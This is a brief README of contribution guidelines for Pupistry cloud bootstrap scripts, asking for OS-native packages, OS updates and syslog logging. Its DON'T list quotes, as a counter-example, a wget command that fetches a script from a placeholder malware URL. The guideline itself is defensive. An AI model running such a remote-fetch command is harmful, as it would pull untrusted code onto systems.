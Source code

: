 # Bootstrap Scripts

Additional bootstrap scripts for major platforms are always welcome. Please
submit a pull request for review and if acceptable, will be merged.


# Development Guide Lines

DO:

* Install Puppet from the most OS-native source possible - either distribution repos, or Puppetlab's repos.
* Install Pupistry from the most OS-native source - either distribution repos, or rubygems.
* Install the latest OS updates for the platform - not all users will want this, but we should provide a good default security example.
* Wrap the user data in a Bash subshell & log all output to syslog - most systems are headless and it's very useful for debug

DON'T:

* Use third party respositories or download sites, it needs to be stock vendor OS and packages.
* Execute code from third party sites (eg no wget http://example.com/malware/myscript.sh)
* Tie user data to any particular cloud provider unless unavoidable for that platform.


# Examples

See the "rhel-7" or "ubuntu-14.04" templates for examples on how the bootstrap
templates should be written.



